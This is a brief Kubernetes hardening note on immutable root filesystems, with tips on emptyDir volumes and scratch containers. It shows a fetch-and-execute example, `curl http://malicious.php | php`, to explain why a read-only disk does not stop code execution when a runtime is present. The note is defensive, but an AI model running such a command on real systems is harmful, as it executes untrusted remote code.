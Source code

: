 An immutable root filesystem prevents applications from writing to their local disk. This is desirable in the event of an intrusion as the attacker will not be able to tamper with the filesystem or write foreign executables to disk.

However if there are runtimes available in the container then this is not sufficient to prevent code execution. Consider `curl http://malicious.php | php` or `bash -c "echo 'much pasted code'"`.

## Notes

- Immutable filesystems will prevent your application writing to disk. There may be a requirement for temporary files or local caching, in which case an  `emptyDir` volume can be mounted with type `Memory`
- Any volume mounted into the container will have its own filesystem permissions
- Scratch containers are an ideal candidate for `immutableRootFilesystem` - they contain only your code, minimal `dev`, `etc`, `proc`, and `sys`, and so need a runtime (or injection into the scratch binary) to execute code. Without a writable filesystem the attack surface is dramatically reduced.


## External Links
- [Kubernetes Docs: Volumes](https://kubernetes.io/docs/concepts/storage/volumes/#emptydir)
